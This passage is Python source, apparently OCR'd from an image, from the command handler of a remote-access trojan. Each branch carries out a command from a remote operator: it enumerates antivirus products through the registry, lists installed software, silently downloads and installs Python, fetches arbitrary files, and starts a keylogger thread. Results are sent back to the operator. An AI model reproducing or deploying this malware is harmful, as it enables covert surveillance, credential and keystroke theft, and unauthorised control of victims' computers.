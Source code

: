         elif command == 'av':
            try:
                execute = subprocess.run(['reg', 'query', 'HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Security Center\\Provider\\Av', '/s'], shell=True, stdout=subprocess.PIPE, 
                                         stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout + execute.stderr
                result = result.decode()
                #print(result)
                reliable_send(result)
            except:
                pass


        elif command == 'allapps':
            try:
                execute = subprocess.run(['powershell', 'Get-WmiObject -Class Win32_Product | Select-Object -Property Name, Vendor, Version'], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout + execute.stderr
                result = result.decode()
                reliable_send(result)
            except:
                pass


        elif command == 'python_install':
            try:
                execute = subprocess.run("curl https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe --output python-3.10.2-amd64.exe && python-3.10.2-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
                result = execute.stdout.decode()+ execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass


        elif command[:8] == 'get':
            try:
                downloadurl(command[3:])
                reliable_send("Downloaded")
            except:
                reliable_send("Not Downloaded")



        elif command == 'keylogger':
                

                try:
                    t1 = threading.Thread(target=start_log)
                    t1.start()
                    
                except:
                    pass
